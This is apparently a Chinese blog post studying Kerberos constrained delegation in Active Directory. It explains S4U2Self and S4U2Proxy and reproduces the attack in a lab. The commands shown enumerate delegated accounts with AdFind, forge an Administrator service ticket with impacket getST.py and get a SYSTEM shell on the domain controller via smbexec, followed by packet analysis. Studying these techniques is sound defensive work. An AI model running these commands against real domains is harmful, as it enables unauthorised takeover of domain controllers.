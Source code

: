 ```yaml
---
title: 约束性委派
published: 2024-10-01
description: "约束性委派学习"
image: "./VioletGarden.png"
tags: ["Domain", "Windows", "Pentest"]
category: Windows
draft: false
---
```



# 约束性委派

约束性委派限制了服务账户只能代表用户获得特定服务的ST。

约束性委派的设置需要有`SeEnableDelegationPrivilege(信任计算机和用户帐户可以执行委派)`权限，本地管理员组、域管理员和企业管理员默认有该权限。可以通过以下方式查看

```bash
win+r 打开 gpedit.msc(本地组策略编辑器)
计算机设置 -> windows设置 -> 安全设置 -> 本地策略 -> 用户权限分配 -> 信任计算机和用户帐户可以执行委派
#默认情况下该值为administrators

#在域内查看本地管理员组
C:\Users\administrator>net localgroup administrators
别名     administrators
注释     管理员对计算机/域有不受限制的完全访问权

成员

----------------------------------------------------
administrator
Domain Admins
Enterprise Admins
```

配置了约束性委派的账户的`msDS-AllowedToDelegateTo`属性会指定对哪个`SPN`进行委派。可以通过[ADExplorer](https://learn.microsoft.com/en-us/sysinternals/downloads/adexplorer)查看

![ADExplorer](./ADExplorer.png)

# S4u拓展

为了在kerberos协议层对约束性委派进行支持，微软对kerberos引入了两个拓展

## S4u2Proxy

[S4u2Proxy](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/bde93b0e-f3c9-4ddf-9f44-e1453be7af5a)，即服务代表用户申请另一个服务的ST，只要服务账户拥有有效的TGS发布的ST票据就能够通过`S4u2Proxy`代表用户申请访问其他服务的ST

## S4u2Self
[S4u2Self](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13)，即服务代表用户申请自身服务的ST。由于用户可能通过`NTLM`等方式进行认证，而不是以kerberos进行认证，这个时候，用户将无法获得TGS颁发的ST，也就无法通过`S4u2Proxy`代表用户申请其他服务的票据。所以微软提出了`S4u2Self`，让服务再通过kerberos协议代表用户申请一个访问自身的票据，这样就能解决没有TGS颁发的ST的问题，从而完成了协议转换

# 约束性委派分类

## 仅使用kerberos认证

这个涉及`Kerberos Bronze Bit`漏洞

## 使用任何身份验证协议

### 实验环境

- 域控: WIN-HSTT0ETJU78 ( 10.0.0.133 )
- 域成员: WIN7 ( 10.0.0.138 )
- 域管理员: Administrator
- 服务账户: hack
- 域: xie.com

### 配置约束性委派

先准备服务账户hack，为域用户hack注册一个服务

```
C:\Users\administrator>setspn -S MySQL/WIN-HSTT0ETJU78.xie.com:3306 hack
正在检查域 DC=xie,DC=com

为 CN=hack,CN=Users,DC=xie,DC=com 注册 ServicePrincipalNames
        MySQL/WIN-HSTT0ETJU78.xie.com:3306
更新的对象
```

为hack配置约束性委派

![server](./server.png)

### 攻击复现

假设我们获取了WIN7主机的权限，该主机当前登入的用户为`xie\hack`，抓取其密码为`Abcd@1234`，并且通过ADFind发现hack具有约束性委派属性

```bat
C:\Users\hack\Desktop>AdFind.exe -b "DC=xie,DC=com" -f "(&(msds-allowedtodelegat
eto=*)(samAccountType=805306368))" -dn

AdFind V01.62.00cpp Joe Richards (support@joeware.net) October 2023

Using server: WIN-HSTT0ETJU78.xie.com:389
Directory: Windows Server 2012 R2

dn:CN=hack,CN=Users,DC=xie,DC=com

1 Objects returned
```

```bat
C:\Users\hack\Desktop>AdFind.exe -b "DC=xie,DC=com" -f "(&(msds-allowedtodelegat
eto=*)(samAccountType=805306368))" msDS-AllowedToDelegateTo

AdFind V01.62.00cpp Joe Richards (support@joeware.net) October 2023

Using server: WIN-HSTT0ETJU78.xie.com:389
Directory: Windows Server 2012 R2

dn:CN=hack,CN=Users,DC=xie,DC=com
>msDS-AllowedToDelegateTo: cifs/WIN-HSTT0ETJU78.xie.com/xie.com
>msDS-AllowedToDelegateTo: cifs/WIN-HSTT0ETJU78.xie.com
>msDS-AllowedToDelegateTo: cifs/WIN-HSTT0ETJU78
>msDS-AllowedToDelegateTo: cifs/WIN-HSTT0ETJU78.xie.com/XIE
>msDS-AllowedToDelegateTo: cifs/WIN-HSTT0ETJU78/XIE

1 Objects returned

```

需要在攻击机做hosts绑定

```bash
# echo "10.0.0.133 WIN-HSTT0ETJU78.xie.com" | sudo tee -a /etc/hosts
```

接下来使用[impacket](https://github.com/fortra/impacket.git)进行约束性委派攻击。以administrator身份申请一张访问cifs/WIN-HSTT0ETJU78.xie.com的服务票据

```
python getST.py -dc-ip 10.0.0.133 xie.com/hack:Abcd@1234 -spn cifs/WIN-HSTT0ETJU78.xie.com -impersonate Administrator
```

导入票据
```bash
# export KRB5CCNAME=Administrator.ccache
```

远程访问控制
```bash
# python3 smbexec.py -no-pass -k WIN-HSTT0ETJU78.xie.com
Impacket v0.11.0 - Copyright 2023 Fortra


[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>
C:\Windows\system32>whoami
nt authority\system
```

### 攻击流量分析

全程主要涉及这6个流量包
![flow](./flow.png)

第一个`AS-REQ`是hack(服务账户)身份向KDC申请可以转发的TGT

![reqTGT](./reqTGT.png)
![forward](./forward.png)

第二个`AS-REP`是KDC向hack返回可以转发的TGT

第三个`TGS-REQ`是`hack`拿上一步获得的TGT，代表`administrator`用户向`hack(服务账户)`申请ST，即

![reqST1](./reqST1.png)

第四个`TGS-REP`是KDC返回用户administrator访问自身服务(hack用户所在服务)的可转发的ST，即S4u2Self

![repST1](./repST1.png)

第五个`TGS-REQ`是hack附上上一步返回的ST向KDC代表用户administrator访问WIN-HSTT0ETJU78的cifs服务的ST，即S4u2Proxy

![reqST2](./reqST2.png)

第六个`TGS-REP`是KDC返回以administrator身份访问WIN-HSTT0ETJU78的cifs服务的ST

![repST2](./repST2.png)

# 参考
- <https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/enable-computer-and-user-accounts-to-be-trusted-for-delegation#reference>
- <https://www.notsoshant.io/blog/attacking-kerberos-constrained-delegation/>